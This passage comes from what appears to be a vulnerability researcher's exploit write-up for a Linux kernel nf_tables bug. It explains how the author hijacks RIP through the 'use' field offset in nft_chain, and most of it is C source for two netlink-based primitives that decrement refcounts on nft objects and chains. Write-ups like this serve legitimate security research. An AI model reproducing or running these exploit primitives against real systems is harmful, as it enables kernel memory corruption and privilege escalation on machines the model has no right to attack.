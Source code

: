 ```c
{
	struct nft_chain *chain;

	switch (data->verdict.code) {
	case NFT_JUMP:
	case NFT_GOTO:
		chain = data->verdict.chain;
		nft_use_dec(&chain->use);
		break;
	}
}

```
The offset of `use` in `nft_chain` is 0x50. This allowed me to hijack RIP by placing nft_set_elem_expr->size at this location (just like I did when exploiting CVE-2023-4569, just with the offset changed)

### Primitive
I created two exploit primitives.
```c
//make target_obj->use--
void primitive_0(struct nl_sock *socket, char *table, char *target_obj){
    char *tmp_set = "pipapo set for primitive";
    new_set_pipapo(socket,table, tmp_set, 0x40, NFT_OBJECT_CT_EXPECT);
    char *key = malloc(0x40);
    char *key_end = malloc(0x40);
    memset(key,0,0x40);
    memset(key_end,0,0x40);
    new_setelem(socket, table, tmp_set, NULL, 0, target_obj, key, 0x40, key_end, 0x40, 0);

    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*2);
    msg_list[0] = del_setelem_msg(table, tmp_set, key, 0x40, key_end, 0x40);
    msg_list[1] = del_set_msg(table, tmp_set);
    send_msg_list(socket, msg_list, 2);
}
//make target_chain->use--
void primitive_1(struct nl_sock *socket, char *table, char *target_chain){
    char *tmp_set = "pipapo set for primitive";
    new_set_pipapo_for_poc_chain(socket, table, tmp_set, 0x40);
    char *key = malloc(0x40);
    char *key_end = malloc(0x40);
    memset(key,0,0x40);
    memset(key_end,0,0x40);
    //new_setelem(socket, table, tmp_set, NULL, 0, target_obj, key, 0x40, key_end, 0x40, 0);
    new_setelem_with_chain(socket, table, tmp_set, NULL, 0, key, 0x40, key_end, 0x40, target_chain);
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*2);
    msg_list[0] = del_setelem_msg(table, tmp_set, key, 0x40, key_end, 0x40);
    msg_list[1] = del_set_msg(table, tmp_set);
    send_msg_list(socket, msg_list, 2);
}
```
`primitive_0` can implement `target_object->use--` and `primitive_1` can implement `target_chain->use--`.
